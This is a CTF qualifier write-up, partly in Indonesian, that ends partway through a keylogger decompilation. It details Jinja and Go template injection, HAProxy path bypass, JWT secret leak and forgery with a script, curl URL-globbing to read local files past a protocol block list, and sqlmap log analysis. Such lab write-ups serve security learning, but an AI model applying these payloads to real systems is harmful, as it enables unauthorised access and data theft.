

# C2C CTF 2026 Quals Writeup

## Challenges

* [misc/welcome](#miscwelcome)
* [misc/jinjail](#miscjinjail)
* [web/corp-mail](#webcorp-mail)
* [web/clicker](#webclicker)
* [web/The Soldier of God, Rick](#webThe-Soldier-of-God-Rick)
* [forensics/Log](#forensicsLog)
* [forensics/Tattletale](#forensicsTattletale)
* [reverse/bunaken](#reversebunaken)
* [pwn/ns3](#pwnns3)
* [blockchain/tge](#blockchaintge)
* [blockchain/convergence](#blockchainconvergence)
* [blockchain/nexus](#blockchainnexus)

---

# misc/welcome

I know that this is just the **"sanity check"** challenge but the experience of getting the flag was hilarious, it's worth to mention here.

At first, i thought this was some kind of **OSINT** challenge and i start to search the flag from the official page, discord, every source i can find but got nothing,

Then somehow i clicked Home/Posts/Games menu on the sidebar and it's on the header the whole time

[image here]

It takes me about **2,5 hours** to realize that the flag was closer than i thought. People said *"Sometimes, all you need is a step back"* and i guess it is what it is

Flag: **`C2C{welcome_to_c2c}`**

No AI Usage here (obviously)

---

# misc/jinjail

In this challenge, we got a `.zip` file that contains theses files:

```
jinjail/
├── app.py
├── docker-compose.yml
├── Dockerfile
├── fix.c
├── flag.txt
└── requirements.txt
```

According to the title and description of the challenge, I first assume this challenge would be similar to `pyjail` challenges.

After analyzing the files, I came to conclusion that my goal is to execute `fix.c` by running `/fix help` command to read the flag.

```bash
int main(int argc, char *argv[]) {
    if (argc > 1 && strcasecmp(argv[1], "help") == 0) {    # Needs 'help' arg
        setuid(0);
        system("cat /root/flag.txt");    # read flag.txt
    } else {

```

In `app.py` there's `waf` function that limits my input.

Blocklist:
* No quotes (`"` or `'`)
* No operators (`+`, `-`, `/`, `\\`, `|`)
* Some functions are restricted (`fromfile`, `savetxt`, `load`, `array`, etc)

There're also limitation for certain characters:

* `(`, `)`, `[`, `]`, `{`, `}` limited to 3
* `,` limited to 10

This challenge also run in `SanboxEnvironment` which restrict access to sensitive attributes such as `__globals__` or `__builtins__`

Beside, in `app.py` we can see that `numpy` registered as global library in the environment. So we can use this to retrieve some characters from outputs.

So my initial plan was to build string `/fix help` by slicing the string from some outputs and put it together.

Here's some of my trial and errors:

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/misc/jinjail]
└──╼ $nc challenges.1pc.tf 37979
>>> {{ numpy.os.system }}
Nope 
```

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/misc/jinjail]
└──╼ $nc challenges.1pc.tf 37979
>>> {{ numpy.version }}
<module 'numpy.version' from '/usr/local/lib/python3.11/site-packages/numpy/version.py'> 
```

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/misc/jinjail]
└──╼ $nc challenges.1pc.tf 37979
>>> {{ numpy.sys }}

```

After exploring several modules, i find that we can use `f2py` module. It's used to call Fortran compiler, but able to call shell internally.

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/misc/jinjail]
└──╼ $nc challenges.1pc.tf 37979
>>> {{ numpy.f2py.main }}
<function main at 0x7f20fb9b8040> 
```

But after some trial, i can't find a way to build the string because of the limitation of `[]`.

Then, i stumble upon `f2py2e` submodule that recommended by **Gemini**

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/misc/jinjail]
└──╼ $nc challenges.1pc.tf 37979
>>> {{ numpy.f2py.f2py2e.os.system }}
<built-in function system> 
```

This output shows that i can get `os` module by using `f2py2e` submodule. 

## Exploit

After several experiments, i tried to get the environment variables by using `numpy.f2py.f2py2e.os.environ`

```bash!
┌─[lasangna@parrot]─[~/ctf/c2c/misc/jinjail]
└──╼ $nc challenges.1pc.tf 37979
>>> {{ numpy.f2py.f2py2e.os.environ }}
environ({'KUBERNETES_SERVICE_PORT': '443', 'KUBERNETES_PORT': 'tcp://10.43.0.1:443', 'HOSTNAME': 'c2c2026-quals-misc-jinjail-bb7b127cef924561', 'HOME': '/home/ctf', 'PYTHONUNBUFFERED': '1', 'GPG_KEY': 'A035C8C19219BA821ECEA86B64E628F8D684696D', 'PYTHON_SHA256': '8d3ed8ec5c88c1c95f5e558612a725450d2452813ddad5e58fdb1a53b1209b78', 'PYTHONDONTWRITEBYTECODE': '1', 'KUBERNETES_PORT_443_TCP_ADDR': '10.43.0.1', 'PATH': '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'KUBERNETES_PORT_443_TCP_PORT': '443', 'GZCTF_FLAG': 'C2C{damnnn_i_love_numpy_c62f51b9f296}', 'KUBERNETES_PORT_443_TCP_PROTO': 'tcp', 'LANG': 'C.UTF-8', 'PYTHON_VERSION': '3.11.14', 'KUBERNETES_SERVICE_PORT_HTTPS': '443', 'KUBERNETES_PORT_443_TCP': 'tcp://10.43.0.1:443', 'KUBERNETES_SERVICE_HOST': '10.43.0.1', 'PWD': '/app', 'GZCTF_TEAM_ID': '70', 'SOCAT_PID': '369', 'SOCAT_PPID': '1', 'SOCAT_VERSION': '1.8.0.3', 'USER': 'ctf', 'LOGNAME': 'ctf', 'SHELL': '/bin/bash', 'SOCAT_SOCKADDR': '10.244.9.142', 'SOCAT_SOCKPORT': '13337', 'SOCAT_PEERADDR': '10.244.0.0', 'SOCAT_PEERPORT': '53893'}) 
```



And as you can see, the flag is still in the environment variables. I got the flag not by executing `/fix help` but by the environment variables instead.

is this unintended? i guess we'll find out later...

Flag: **`C2C{damnnn_i_love_numpy_c62f51b9f296}`**

## AI Usage

yes, i use AI to solve this challenge. I used **Gemini 3 Pro** (at the begining but i got usage limit so then i use **Flash** afterward).

For the subscription, it's from Google AI Pro with Student Account 

The Prompts i sent mostly about how i use Gemini to search for modules or submodules from `numpy` that i can use.

for example:
```
find me a module that i can use to get some character for '/fix help' string
```

I also sent the feedbacks after i tried the recommendation Gemini gave to evaluate.

Gemini sometimes provides a complete recommendation to directly obtain the `/fix help` string along with the required slicing, for example:

```bash
{{ numpy.f2py.f2py2e.os.system(numpy.f2py.f2py2e.os.sep ~ numpy.float64.name[0] ~ numpy.f2py.f2py2e.os.name[3:5]) }}
```

In this case, the methodology I used to verify the output was to break the expression down and execute each part individually (without applying slicing first) to confirm the intermediate outputs. For instance, I started by evaluating `numpy.f2py.f2py2e.os.name` on its own to understand its raw value.

---

# web/corp-mail

Challenge ini memiliki deskripsi seperti berikut:

*"Rumor said that my office's internal email system was breached somewhere... must've been the wind."*

Dari sini aku berasumsi kalau challenge ini mencari kelemahan dari email system.

Kita juga diberikan file `.zip` yang berisi file-file berikut:

```
corp-mail/
├── docker-compose.yml
├── Dockerfile
├── flask_app
│   ├── application
│   │   ├── auth.py
│   │   ├── config.py
│   │   ├── db.py
│   │   ├── __init__.py
│   │   ├── routes
│   │   │   ├── admin.py
│   │   │   ├── auth.py
│   │   │   ├── __init__.py
│   │   │   └── user.py
│   │   ├── static
│   │   │   └── style.css
│   │   ├── templates
│   │   │   ├── admin_emails.html
│   │   │   ├── admin.html
│   │   │   ├── base.html
│   │   │   ├── compose.html
│   │   │   ├── email.html
│   │   │   ├── inbox.html
│   │   │   ├── login.html
│   │   │   ├── register.html
│   │   │   ├── sent.html
│   │   │   └── settings.html
│   │   └── utils.py
│   ├── app.py
│   ├── data
│   └── requirements.txt
├── haproxy
│   └── haproxy.cfg
├── run.sh
└── supervisord.conf
```

Dari struktur direktori diatas, aplikasi ini berbasis Flask (pyhton) dan berjalan dibelakang HAProxy sebagai *reverse proxy*.

### HAProxy

Pertama aku menganalisa `haproxy.cfg` untuk mencari vulnerability dan terdapat sebuah temuan:

```cfg
backend flask_backend
    http-request deny if { path -i -m beg /admin }    # This rule
    server flask1 127.0.0.1:5000 check
```

Rule ini akan memblokir semua request ke path `/admin`, tapi HAProxy membaca path secara literal, jadi jika aku pakai `//admin`, akan lolos karena HAProxy membacanya bukan sebagai `/admin` dan aku bisa bypass rule ini.

Untuk memastikan ini bisa berjalan, aku menganalisa file `routes/auth.py` dan `requirements.txt` dan menemukan kalau terdapat penggunaan **Werkzeug**. Berdasarkan [URL Routing - Werkzeug Documentation](https://werkzeug.palletsprojects.com/en/stable/routing/), `merge_slashes` by default enabled, jadi jika aku mengirimkan request ke path `//admin` akan dianggap sebagai `/admin`.

Dengan begitu bisa dipastikan aku bisa bypass rule dalam HAProxy tersebut.

### JWT

pada file `routes/admin.py`, terdapat temuan bahwa semua endpoint dilindungi oleh dekorator `@admin_required`

```python
@bp.route('/')
@admin_required
def panel():
    ...
```

Dalam file `application/auth.py`:
```pyhton
def admin_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        ...
        if not payload.get('is_admin'):
            flash('Admin access required', 'error')
            return redirect(url_for('user.inbox'))
        ...
```

Dari sini dapat saya simpulkan kalau dalam bearer token diperlukan field `is_admin`. Setelah itu saya merencanakan untuk **JWT Forgery**

### SSTI (Server-Side Template)

pada file `routes/user.py` terdapat temuan

```python
@bp.route('/settings', methods=['GET', 'POST'])
@login_required
def settings():
    ...
    if request.method == 'POST':
        signature_template = request.form.get('signature', '')
        ...
        formatted_signature = format_signature(signature_template, g.user['username'])
```

dan dari file `application/utils.py` fungsi `format_signature()` memanggil metode `.format()` yang dapat mengizinkan untuk melakukan **traverse attribute dan dictionary keys**

## Exploit

Pertama, aku register dan login, kemudian masuk ke halaman settings

Di bagian **Your Signature**, masukkan payload `{app.config[JWT_SECRET]}`

Maka kita sudah mendapatkan `JWT_SECRET` untuk forgery

Sebelum lanjut ke forgery, kita perlu memastikan format payload tokennya bagaimana. Untuk itu, ambil token user saat ini. Jika dengan Chrome, `F12`, lalu ke tab **Application**, cari bagian **Cookies** lalu ambil value `token`

Masukkan token ke [jwt.io](https://jwt.io), paste juga `JWT_SECRET` sebelumnya ke **JWT Signature Verification** untuk memastikan secret yang kita dapatkan valid 

Setelah memastikan format payload token, aku membuat **forged token** dengan script python ini

```python
# forge.py
import jwt
from datetime import datetime, timedelta

JWT_SECRET = "34a70b0d0df36447c4ce29da5f13307eefbdf7ed47b84f17ce791c123615a2fe"

payload = {
    'user_id': 6,
    'username': "lasang",
    'is_admin': 1,
    'exp': 9999999999 
}

# Encode token with HS256 (according to target config)
forged_token = jwt.encode(payload, JWT_SECRET, algorithm="HS256")

print("\n[+] JWT Forgery Successful!")
print("[+] Forged Admin Token:")
print("-" * 50)
print(forged_token)
print("-" * 50)
```

Kemudian kita akan menggunakan token ini ke browser dan masuk ke path `//admin/`

Disini aku sudah berhasil masuk ke Administration Panel. Selanjutnya klik **View Emails** untuk user **admin**

Dan kita dapat melihat Email History untuk user admin. Disini langsung saja buka email yang dikirimkan ke `mike.wilson` dengan subject "Confidential: ..."

Flag: **`C2C{f0rm4t_str1ng_l34k5_4nd_n0rm4l1z4t10n_93a7216dd963}`**

## AI Usage

yes, i use AI to solve this challenge. I used **Gemini 3 Pro**. For the subscription, it's from Google AI Pro with Student Account.

Prompt yang aku gunakan kebanyakan untuk menganalisa file dan mencari vulnerabilities nya.

for example:
```
analyze this code and find the vulnerabilites ...
```

I also use Gemini to create the `forge.py` script to create the forged token.

Metodologi yang aku gunakan untuk memverifikasi output dari Gemini adalah dengan mencoba output yang diberikan Gemini dan jika gagal, aku coba analisa terlebih dahulu. Sebagai contoh untuk `forge.py` pada awalnya format payload token masih hasil generate Gemini yang belum sesuai, dan saat aku coba gagal. Karena itu aku coba untuk analisa tokennya ke [jwt.io](https://jwt.io) dan menyesuaikan script `forge.py`.

---

# web/clicker

## Exploit

Pertama register akun dan login terlebih dahulu untuk mendapatkan token.

Setelah masuk ke `/game`, ambil token dari browser. Jika dengan Chrome, `F12`, lalu ke tab **Application**, cari bagian **Cookies** lalu ambil value `token`

Masukkan token ke [jwt.io](https://jwt.io) untuk menganalisa token.

Setelah memahami format token yang digunakan, gunakan script `exploit.py` ini untuk membuat isi file `jwks.json` dan **forged token**

Siapkan `nginx`/`apache`/`ngrok` (disini aku menggunakan `nginx`) untuk mengekspose file `jwks.json` di direktori `/var/www/html`

Disini aku menggunakan **Droplet DigitalOcean** dengan Domain pribadi sehingga setelah aku menambahkan file `jwks.json` ke direktori `/var/www/html` dan menjalankan `nginx`, file ini dapat diakses secara publik di `http://[domain]/jwks.json`

Setelah itu, aku menggunakan forged token dari output sebelumnya untuk digunakan di browser, kemudian mencoba mengakses ke path `/admin`

Namun disini aku di-redirect ke halaman utama kembali (login), tapi setelah beberapa kali mencoba aku menyadari bahwa saat aku akses ke `/admin` halaman admin terbuka sebentar lalu kembali ke halaman login

Disini aku mencoba interupt dengan **BurpSuite** untuk bisa menganalisa alur redirect dan halaman admin.

Setelah aku coba interupt dan kirim ke repeater untuk menganalisa halaman admin, terdapat redirect ini

```html
    ...
    <script>
        const token = localStorage.getItem('token');
        const isAdmin = localStorage.getItem('is_admin') === 'true';

        if (!token || !isAdmin) {
            window.location.href = '/';
        } 
    ...
```

> **Note:** Disini aku baru menyadari aku tidak perlu pakai BurpSuite sama sekali, karena template halaman `admin.html` ada di direktori `template/` dan aku bisa baca file html dari sini

Ternyata ada pengecekan dari `localStorage` yang menyebabkan walau sudao lolos JWT, tapi dari `localStorage` nilainya belum berubah.

Untuk itu ubah `localStorage` lewat console browser dan jalankan 2 command ini:

```javascript
localStorage.setItem('token', '<forged-token>')
localStorage.setItem('is_admin', 'true')
```

Setelah itu, jika mengakses ke path `/admin` tidak akan di-redirect lagi. Pada Admin Panel ini, kita bisa mendownload URL, dan menyimpannya di direktori `/static`. Ini bisa menjadi celah dimana kita bisa membaca file apapun dari server dengan URL `file:///...`

Namun jika kita lihat pada `routes/admin.py`, terdapat block code ini:

```python
    # Make sure only http/s are allowed
    blocked_protocols = [
        'dict', 'file', 'ftp', 'ftps', 'gopher', 'gophers',
        'imap', 'imaps', 'ipfs', 'ipns', 'ldap', 'ldaps',
        'mqtt', 'pop3', 'pop3s', 'rtmp', 'rtsp', 'scp',
        'sftp', 'smb', 'smbs', 'smtp', 'smtps', 'telnet',
        'tftp', 'ws', 'wss',
    ]
```

Artinya kita tidak bisa secara langsung menggunakan URL `file:///...`, tapi jika kita coba analisa `routes/admin.py`, aplikasi mengambil file dari URL dengan menggunakan `curl` dan terdapat fitur yang bisa kita exploit.

Kita bisa mengugnakan **URL Globbing** untuk bypass rule ini. Kita cukup mengubah URL menjadi `f{i}le:///` dan kita bisa mengambil file dengan memberikan URL `f{i}le:///flag.txt` (masih asumsi)

Disini kita berhasil mendownload URL yang diinputkan dan saat kita cek ke path `/static/flag.txt`, kita mendapatkan flag nya.

Flag: **`C2C{p4rs3r_d1sr4p4ncy_4nd_curl_gl0bb1ng_1s_my_f4v0r1t3_b7126096108f}`**

## AI Usage

yes, i use AI to solve this challenge. I used **Gemini 3 Pro**. For the subscription, it's from Google AI Pro with Student Account.

Prompt yang aku gunakan kebanyakan untuk menganalisa file dan mencari vulnerabilities nya.

for example:
```
analyze this code and find the vulnerabilites ...
```

I also use Gemini to create the `exploit.py` script to create the `jwks.json` and forged token.

Metodologi yang aku gunakan untuk memverifikasi output dari Gemini adalah dengan mencoba output yang diberikan Gemini dan jika gagal, aku coba analisa terlebih dahulu. Misal pada saat menganalisa perilaku redirect saat akses `/admin`. Disini aku memastikan terlebih dahulu kalau token JWT dan file `jwks.json` tidak bermasalah, lalu menganalisa dengan BurpSuite untuk memahami alurnya dan meminta Gemini untuk menganalisa html dari `admin.html`.

---

# web/The Soldier of God, Rick

Pertama, aku menggunakan `file` untuk melihat informasi mengenai file rick_soldier

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/web/soldier]
└──╼ $file rick_soldier 
rick_soldier: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=26a365a5a86653a3b19db1da67bf25628ea8f809, with debug_info, not stripped
```

Dari output tersebut, dapat dilihat bahwa file ini memiliki status binary `not stripped` yang artinya bisa kita coba untuk analisa awal dengan menggunakan `nm`

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/web/soldier]
└──╼ $nm rick_soldier | grep "main\."
0000000000c8c680 D go:main.inittasks
0000000000ccd100 D main.content
00000000009ed1a0 r main.content.files
000000000076f180 T main.main
000000000076f760 T main.main.StripPrefix.func1
0000000000476080 T runtime.main.func1
0000000000447600 T runtime.main.func2
```

Dari output ini, aku menyimpulkan bahwa dengan adanya `main.content` dan `main.content.files` menunjukkan bahwa aplikasi ini menggunakan `go:embed`.

Untuk itu, aku mencoba untuk extract embeded files dari binary file `rick_soldier` menggunakan [Go-Embed-Extractor](https://github.com/dimasma0305/Go-Embed-Extractor)

```bash
(ctf-env) lasangna@sandbox:~/ctf/web/soldier$ python3 extract_embed.py rick_soldier 
[*] No address provided. Attempting to find embed.FS automatically...
[*] Found 12 candidate symbols:
    - main.content @ 0xccd100
    - embed.dotFile @ 0xccd108
    - net/http.httpservecontentkeepheaders @ 0xccd120
    - net/http.httplaxcontentlength @ 0xccd178
    - time.loadFromEmbeddedTZData @ 0xce3d48
    - mime/multipart.multipartfiles @ 0xccd230
    - vendor/golang.org/x/net/http2/hpack.staticTable @ 0xccd320
    - crypto/internal/hpke.SupportedKDFs @ 0xce3ff0
    - compress/flate.huffOffset @ 0xce4038
    - compress/flate.fixedOffsetEncoding @ 0xce4048
    - math/big.leafSize @ 0xc83578
    - reflect..dict.TypeFor[encoding/asn1.RawContent] @ 0x9e0bf8
[*] Auto-selecting: main.content @ 0xccd100
[+] Found pointer to slice header at: 0x9ed1a0
[+] Found files array at: 0x9ed1b8
[+] Found 6 files in the embed system.
    [-] Extracting: .env (36 bytes)
    [-] Extracting: static/ (0 bytes)
    [-] Extracting: templates/ (0 bytes)
    [-] Extracting: static/rick_soldier_sprite.png (654726 bytes)
    [-] Extracting: static/style.css (203 bytes)
    [-] Extracting: templates/index.html (4490 bytes)

[+] Extraction complete. Check folder: extracted_embed
```

Dari output extract diatas dapat dilihat ada file `.env` yang diextract dari `rick_soldier`
```bash
(ctf-env) lasangna@sandbox:~/ctf/web/soldier$ cat extracted_embed/.env 
SECRET_PHRASE=Morty_Is_The_Real_One
```

Dan isi dari `.env` adalah `SECRET_PHRASE` yang bisa digunakan untuk diisikan sebagai **Secret Key** dari halaman http instance.

Namun disini kita belum mendapatkan **Battle Cry** yang sesuai

Selanjutnya, analisa lebih dalam dengan menggunakan **Ghidra + Go Analyzer Extension**

Disini aku menganalisa fungsi `main.main` dan menemukan ketika Battle Cry yang diinputkan salah, fungsi yang menangani ini adalah `rick/router.(*Handler).Fight`

Selanjutnya aku menganalisa isi dari fungsi `rick/router.(*Handler).Fight` dan menemukan vulnerability **SSTI**

* Aplikasi mengambil input **Battle Cry** dari form (`FormValue`)
* Kemudian input dimasukkan dalam `fmt.Sprintf` untuk menyusun string
* Hasilnya dimasukkan ke `html/template.(*Template).Parse`

Dari fungsi `main.main` sebelumnya, kita bisa melihat bahwa `FLAG` disimpan dalam struct `Handler` dan fungsi `Fight` dijalankan dalam context struct ini.

Setelah melakukan beberapa kali percobaan dengan memberikan input yang dibaca sebagai template oleh golang (`{{ ... }}`), aku menemukan command yang akan mencetak seluruh isi struct `BattleView` yaitu `{{ printf "%#v" . }}`

Command ini akan menggunakan *reflection* untuk membedah seluruh struktur object, termasuk field private.

## Exploit

Dengan memasukkan `{{ printf "%#v" . }}` sebagai Battle Cry dan `Morty_Is_The_Real_One` sebagai Secret Key, aku berhasil menampilkan flag ke halaman.

Flag: **`C2C{R1ck_S0ld13r_0f_G0d_H4s_F4ll3n_v14_SST1_SSR7_bc5b6a19cb75}`**

## AI Usage

yes, i use AI to solve this challenge. I used **Gemini 3 Pro**. For the subscription, it's from Google AI Pro with Student Account.

Hampir keseluruhan dari challenge ini aku kerjakan dengan bantuan Gemini, mulai dari analisa pseudocode Ghidra hingga analisa vlunerability golang dan solusinya.

Aku hanya berperan dalam menjalankan extract embed dan mendapatkan `.env` dan beberapa percobaan untuk Battle Cry nya.

Berikut beberapa contoh prompt yang aku gunakaan untuk menganalisa atau menghasilkan command:

```
analyze this code from rick/router.(*Handler).Fight

void rick/router.(*Handler).Fight(int **param_1,int param_2,undefined8 param_3,sdword **param_4)

{
    ...
```

```
when using {{ . }}

i got this
You screamed: "BattleView{Rick: Rick, Soldier of God HP:999999, LastMsg: Rick explicitly ignores your Scream. He is simply too powerful.}" 

and when using {{ .Secret }}

i got this 
You screamed: "not too easy" 

what command can i use next?
```

Metodologi yang aku gunakan untuk memverifikasi output dari Gemini adalah dengan mencoba output yang diberikan Gemini dan jika gagal, aku mencoba untuk mencari referensi lain terlebih dahulu lalu menanyakan kembali untuk solusi selanjutnya ke Gemini.

---

# forensics/Log

### Question 1

```
1. What is the Victim's IP address?
Required Format: 127.0.0.1
Your Answer: 182.8.97.244
Status: Correct!
```

Jika melihat dari `access.log`, beberapa line di awal source IP nya dari `182.8.97.244`, jadi saya asumsikan ini IP dari victim.

### Question 2

```
Question #2:
2. What is the Attacker's IP address?
Required Format: 127.0.0.1
Your Answer: 219.75.27.16
Status: Correct!
```

Berdasarkan `access.log`, dari line 108 menunjukkan IP `219.75.27.16` melakukan request dengan payload `sqlmap`. Dari yang aku tah, `sqlmap` adalah pentesting tool yang digunakan untuk melakukan SQL Injection dan database takeover. Karena itu saya asumsikan ini adalah IP Attacker.

### Question 3

```
Question #3:
3. How many login attempts were made by the attacker?
Required Format: 1337
Your Answer: 6
Status: Correct!
```

Karena kita sudah mengetahui IP Attacker, kita bisa mencari percobaan login yang dilakukan attacker dengan perintah berikut:

```bash
grep "219.75.27.16" access.log | grep "POST /wp-login.php"
```

Dari output yang ditampilkan terdapat 7 percobaan login, tapi jika kita perhatikan dari HTTP status-nya, terdapat 6 yang mendapat `200` dan 1 yang mendapat `302`.

Hal ini menunjukkan bahwa Attacker melakukan percobaan login 6 kali dan gagal (response `200 OK`), dan pada percobaan ke-7 berhasil (response `302 Found`).

> **Note:** Sebelum challenge diperbaiki, aku sempat bingung kenapa jawaban 6 atau 7 salah, dan secara asal menjawab 5 dan benar, tapi setelah diperbaiki jadi lebih jelas.

### Question 4

```
Question #4:
4. Which plugin was affected (Full Name)?
Required Format: -
Your Answer: Easy Quotes
Status: Correct!
```

Untuk melihat plugin yang terdampak oleh serangan, kita bisa melihat pada file `error.log` dan menggunakan perintah berikut:

```bash
grep -oP '/wp-content/plugins/\K[^/]+' error.log | sort | uniq -c
```

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/foren/log]
└──╼ $grep -oP '/wp-content/plugins/\K[^/]+' error.log | sort | uniq -c
   2943 easy-quotes
```

Dapat kita simpulkan plugin yang terdampak adalah `easy-quotes` atau **Easy Quotes**

### Question 5

```
Question #5:
5. What is the CVE ID?
Required Format: CVE-XXXX-XXXX
Your Answer: CVE-2025-26943
Status: Correct!
```

Untuk pertanyaan ke-5, aku langsung mencari ke google mengenai CVE dari Easy Quotes

### Question 6

```
Question #6:
6. Which tool and version were used to exploit the CVE?
Required Format: tool_name/13.3.7
Your Answer: sqlmap/1.10.1.21
Status: Correct!
```

Dari pertanyaan kedua, kita sudah mengetahui kalau tool yang digunakan attacker adalah `sqlmap` dan juga ditunjukkan versi nya. Untuk mendapatkan nya melalui `grep`, kita bisa menggunakan:

```bash
grep -o "sqlmap/[0-9a-zA-Z.#]*" access.log | uniq
```

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/foren/log]
└──╼ $grep -o "sqlmap/[0-9a-zA-Z.#]*" access.log | uniq
sqlmap/1.10.1.21#dev
```

### Question 7

```
Question #7:
7. What is the email address obtained by the attacker?
Required Format: r00t@localhost.xyz
Your Answer: admin@daffainfo.com
Status: Correct!
```

Disini saya meminta bantuan **Gemini** untuk menganalisa `access.log` untuk melihat aktivitas `sqlmap` dari Attacker dan membuatkan script python untuk mengextractnya.

Berikut script `solve.py`

```python
import re
from datetime import datetime

log_file = "access.log"

try:
    with open(log_file, "r") as file:
        lines = file.readlines()

    data = []

    for i in range(len(lines) - 1):
        current_line = lines[i]
        next_line = lines[i+1]
        
        # Only search for lines that extract characters with pattern != (URL encoded: %21%3D)
        if "SLEEP" in current_line and "%21%3D" in current_line:
            
            # Ekstrak current request time and next request
            time_match_1 = re.search(r'\[(.*?) \+0000\]', current_line)
            time_match_2 = re.search(r'\[(.*?) \+0000\]', next_line)
            
            if time_match_1 and time_match_2:
                time_1 = datetime.strptime(time_match_1.group(1), "%d/%b/%Y:%H:%M:%S")
                time_2 = datetime.strptime(time_match_2.group(1), "%d/%b/%Y:%H:%M:%S")
                
                # Count time diff
                time_diff = (time_2 - time_1).total_seconds()
                
                # if time diff less than 2s, != condition is FALSE.
                # So, guess for the character is TRUE
                if time_diff < 2:
                    # Find guessed ASCII number (after %21%3D)
                    ascii_match = re.search(r'%21%3D(\d+)', current_line)
                    if ascii_match:
                        ascii_val = int(ascii_match.group(1))
                        char = chr(ascii_val)
                        data.append(char)

    print("[+] Extraction Result: " + "".join(data))

except Exception as e:
    print(f"Error occured: {e}")
```

Untuk menjelaskan output dari perintah ini aku juga meminta Gemini untuk memecah output

[image here]

Dari output yang dihasilkan, kita mendapatkan `user_login`, `user_email`, `user_nicename`, `display_name`, `user_pass`(Hash), `user_registered`, `user_status` dan `user_url`

### Question 8

```
Question #8:
8. What is the password hash obtained by the attacker?
Required Format: -
Your Answer: $wp$2y$10$vMTERqJh2IlhS.NZthNpRu/VWyhLWc0ZmTgbzIUcWxwNwXze44SqW
Status: Correct
```

Untuk menjawab Question 8, aku menggunakan value yang didapatkan dari Question 7 sebelumnya.

### Question 9

```
Question #9:
9. When did the attacker successfully log in?
Required Format: DD/MM/YYYY HH:MM:SS
Your Answer: 11/01/2026 13:12:49
Status: Correct!
```

Untuk menjawab Question 9, aku menggunakan output dari **Question 3** pada saat attacker berhasil login (response `302 Found`)

```bash
219.75.27.16 - - [11/Jan/2026:13:12:49 +0000] "POST /wp-login.php HTTP/1.1" 302 1275 "http://165.22.125.147/wp-login.php?redirect_to=http%3A%2F%2F165.22.125.147%2Fwp-admin%2F&reauth=1" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.56 Safari/537.36"
```

Dari log tersebut, attacker berhasil login pada `[11/Jan/2026:13:12:49 +0000]` lalu format waktu tersebut disesuaikan menjadi `11/01/2026 13:12:49`

Flag: **`C2C{7H15_15_V3rY_345Y_814f6a5316dd}`**

## AI Usage

yes, i use AI to solve this challenge. I used **Gemini 3 Pro**. For the subscription, it's from Google AI Pro with Student Account.

Aku hanya menggunakan Gemini untuk menganalisa dan membuat script untuk Question 7

Berikut prompt yang aku gunakan:

```
analyze how sqlmap retrieve data from access.log file
```

```
create a script to extract the data
```

Metodologi yang aku gunakan untuk memverifikasi output dari Gemini adalah dengan mencoba output yang diberikan Gemini, jika ada error atau gagal, aku mencoba untuk adjust script yang dibuat sebisaku, jika tidak tahu untuk memperbaikinya, aku minta Gemini memperbaiki scriptnya.

---

# forensics/Tattletale

Pertama, aku menganalisa file `serizawa` dengan `file`

```bash
(venv) ┌─[lasangna@parrot]─[~/ctf/c2c/foren/tattletale/dist]
└──╼ $file serizawa 
serizawa: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=f5e4eb9bd95f0a14f41d1ef1a6f8ee703c85a059, stripped
```

Karena disini file serizawa `stripped`, aku mencoba menganalisa dengan **Ghidra** dan menganalisa entry function nya, kemudian meminta bantuan Gemini untuk menganalisa pseudocode function yang dipanggil oleh entry function ini.

Lalu didapatkan kesimpulan bahwa file `serizawa` bukan malware yang ditulis dari nol, melainkan script Python yang dibungkus dengan PyInstaller.

Untuk mengextract `serizawa`, aku menggunakan [pyinstxtractor.py](https://github.com/extremecoders-re/pyinstxtractor)

```bash
(ctf-env) lasangna@sandbox:~/ctf/foren/tattletale/dist$ python3 pyinstxtractor.py serizawa 
[+] Processing serizawa
[+] Pyinstaller version: 2.1+
[+] Python version: 3.11
[+] Length of package: 17011072 bytes
[+] Found 55 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: serizawa.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.11 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: serizawa

You can now use a python decompiler on the pyc files within the extracted directory
```

Dari hasil extract tersebut dapat dilihat, terdapat file `serizawa.pyc` yang seharusnya merupakan code utama malware ini.

Untuk decompile `serizawa.pyc`, aku menggunakan [pycdc](https://github.com/zrax/pycdc)

```bash
(ctf-env) lasangna@sandbox:~/ctf/foren/tattletale/dist/serizawa_extracted$ pycdc serizawa.pyc 
# Source Generated with Decompyle++
# File: serizawa.pyc (Python 3.11)

import struct
import sys
import os
streya = '/dev/input/event0'
pvut = '/opt/cron.aseng'
strc = 'QQHHi'
evo = struct.calcsize(strc)

def prm():
    if os.geteuid() != 0:
        sys.exit(1)
    if not os.path.exists(streya):
        sys.exit(1)
        return None


def kst():
Unsupported opcode: BEFORE_WITH (108)
    ec = 0
